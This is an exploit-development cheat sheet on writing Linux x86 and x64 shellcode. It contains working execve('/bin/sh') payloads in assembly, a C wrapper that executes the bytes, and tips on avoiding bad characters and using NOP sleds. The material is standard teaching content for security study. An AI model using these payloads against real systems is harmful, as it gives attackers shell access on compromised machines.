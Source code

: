 # Assembly for Hackers: Writing Custom Shellcode

This cheat sheet introduces writing custom shellcode in **x86 and x64 Linux assembly**, focusing on exploit development, payloads, and raw binary output for buffer overflows, SROP, or manual injection.

---

## 🧠 What is Shellcode?

Shellcode is raw binary machine code — not necessarily a shell — used during exploitation. Typical goals:

- Spawn a shell
- Execve arbitrary commands
- Download/execute malware
- Manipulate memory (mmap/mprotect)

---

## ⚙️ Development Environment

### Tools Required

```bash
sudo apt install nasm gcc objdump libseccomp-dev
```

For testing:
- `nasm`: assemble `.asm` to `.bin`
- `ndisasm`: disassemble raw binaries
- `objdump`: inspect ELF files
- `strace`: trace syscalls

---

## 🏗 Shellcode Workflow

1. Write in **nasm-style** Intel x86/64 assembly
2. Assemble to raw binary (`.bin`)
3. Convert to hex or byte array
4. Inject or test via C, Python, or in-memory loader

---

## ✍️ Example 1: execve("/bin/sh", NULL, NULL) — x86 Linux

### `shellcode.asm`:

```asm
BITS 32
global _start

section .text
_start:
    xor eax, eax
    push eax              ; NULL terminator
    push 0x68732f2f       ; "//sh"
    push 0x6e69622f       ; "/bin"
    mov ebx, esp          ; ebx = pointer to "/bin//sh"
    push eax              ; NULL envp
    push ebx              ; argv = ["/bin/sh", NULL]
    mov ecx, esp
    xor edx, edx
    mov al, 0xb           ; syscall number for execve
    int 0x80
```

---

## 🛠 Assemble + Dump Bytes

```bash
nasm -f bin shellcode.asm -o shellcode.bin
xxd -i shellcode.bin     # Format for C arrays
```

---

## 🧪 Run in C Wrapper

```c
#include <stdio.h>
#include <string.h>

unsigned char code[] = {
  0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,
  0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,
  0x53,0x89,0xe1,0x31,0xd2,0xb0,0x0b,0xcd,0x80
};

int main() {
  printf("Shellcode Length:  %ldn", strlen(code));
  int (*ret)() = (int(*)())code;
  ret();
}
```

---

## ✍️ Example 2: x86_64 execve("/bin/sh")

```asm
BITS 64
global _start

section .text
_start:
    xor rax, rax
    mov rbx, 0x68732f6e69622f2f
    shr rbx, 8
    push rbx
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov al, 59         ; syscall execve
    syscall
```

---

## 🔢 Syscall Table (Linux)

| Syscall      | x86 # | x86_64 # |
|--------------|--------|----------|
| `execve`     | 11     | 59       |
| `read`       | 3      | 0        |
| `write`      | 4      | 1        |
| `open`       | 5      | 2        |
| `mmap`       | 90     | 9        |
| `exit`       | 1      | 60       |

---

## 🔐 Shellcode Constraints

When writing shellcode for exploits:
- Avoid **NULL bytes** (0x00)
- Avoid bad chars (e.g., 0x0a, 0x0d for strings)
- Use **short instructions** (for ROP/SROP)
- **Position-independent code** (don't rely on absolute addresses)

---

## 🛡 Techniques for Safe Shellcode

- Use `xor reg, reg` instead of `mov reg, 0`
- Use `push` + `call` trick to store strings
- Use `jmp-call-pop` to get EIP/RIP for shellcode-relative pointers

---

## 📦 Tools for Shellcode Dev

- `msfvenom` (good for generating raw shellcode with known payloads)
- `pwntools` (for scripting exploits with custom shellcode)
- `Radare2` or `Ghidra` (inspect shellcode statically)
- `shellnoob` (assemble/disassemble quickly)

---

## 📍 Testing in GDB

```bash
gdb -q ./shellcode_test
set disassembly-flavor intel
run
# Or inject into memory and jump
```

---

## 🧯 Tips

- Use `/bin//sh` (double slash) to pad 8 bytes
- Always test with `strace ./a.out` to verify syscalls
- NOP sleds (`x90`) still useful in buffer exploits
- Align stack on x86_64 (e.g., 16-byte alignment)

---



